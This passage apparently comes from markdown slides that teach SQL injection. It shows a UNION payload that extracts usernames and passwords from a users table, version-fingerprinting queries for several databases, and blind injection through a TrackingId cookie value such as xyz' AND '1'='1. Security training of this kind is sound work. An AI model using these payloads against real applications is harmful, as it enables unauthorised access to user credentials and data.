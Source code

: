 ```
SELECT * FROM products
WHERE category = 'Gifts'
UNION
SELECT username, password
FROM users --'
```

---

## Examining the database

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

---

## Blind SQL injection

* the application does not return the results of the SQL query within its responses
* nor the details of any database errors
* can still be exploited to access unauthorized data

----

## Blind SQL injection

```
Cookie: TrackingId=xyz
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz'
```

If the query returns `True` we get a 'Welcome back' message, if not we don't.

----

## Blind SQL injection

```
Cookie: TrackingId=xyz' AND '1'='1
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND '1' = '1'
```

This will return `True` so we will get the 'Welcome back' message.

----
